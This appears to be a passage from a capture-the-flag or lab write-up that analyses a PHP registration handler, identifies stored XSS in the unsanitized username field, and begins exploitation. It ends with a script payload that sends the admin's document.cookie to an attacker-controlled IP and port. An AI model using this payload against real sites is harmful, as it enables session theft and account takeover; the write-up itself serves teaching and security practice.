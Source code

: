 We can register in here, since we already have the source code of `login.php`, we can do an analysis of it:

```js
// Registration process
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];
    $email = $_GET['email'];
    $password = md5($_GET['password']);

    $stmt_check = $pdo->prepare("SELECT * FROM users WHERE username = :username OR email = :email");
    $stmt_check->execute([':username' => $username, ':email' => $email]);
    $existing_user = $stmt_check->fetch(PDO::FETCH_ASSOC);

    if ($existing_user) {
        $error_message = "Error: Username or email already exists.";
    } else {
        $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
        $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);

        if ($stmt_insert) {
            $success_message = "Registration successful!";
        } else {
            $error_message = "Error: Unable to register user.";
        }
    }
}
```

This is where the magic relies, this is vulnerable to XSS, The vulnerable code is in the registration handling where the `username` parameter is directly taken from the user input (`$_GET['username']`) and stored in the database **without sanitization**.

```js
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username']; //No sanitization here
```

This allows an attacker to inject malicious scripts into the `username` field, which will execute when the username is later displayed on a page that renders it without proper escaping. This means we can try creating a test account to steal the admin's cookie.

Let's begin exploitation.


# EXPLOITATION
---

We can create a malicious username:


```
<script>document.location='http://10.10.15.39:8000/?c='+document.cookie;</script>
```
